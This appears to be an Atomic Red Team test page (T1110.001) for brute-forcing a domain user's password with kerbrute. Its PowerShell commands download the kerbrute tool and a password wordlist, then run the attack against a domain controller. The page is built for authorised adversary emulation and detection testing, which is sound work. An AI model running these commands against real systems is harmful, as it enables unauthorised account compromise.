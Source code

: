 


<br/>
<br/>

## Atomic Test #4 - Password Brute User using Kerbrute Tool
Bruteforce a single user's password from a wordlist

**Supported Platforms:** Windows


**auto_generated_guid:** 59dbeb1a-79a7-4c2a-baf4-46d0f4c761c4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domaincontroller | Domain controller where test will be run | string | $ENV:userdnsdomain|
| domain | Domain where you will be testing | string | $ENV:userdomain|


#### Attack Commands: Run with `powershell`! 


```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe bruteuser --dc #{domaincontroller} -d #{domain} $env:temp\bruteuser.txt TestUser1
```




#### Dependencies:  Run with `powershell`!
##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```
##### Description: bruteuser.txt must exist in PathToAtomicsFolder\..\ExternalPayloads
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\bruteuser.txt"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/blob/master/atomics/T1110.001/src/bruteuser.txt?raw=true" -outfile "PathToAtomicsFolder\..\ExternalPayloads\bruteuser.txt"
```

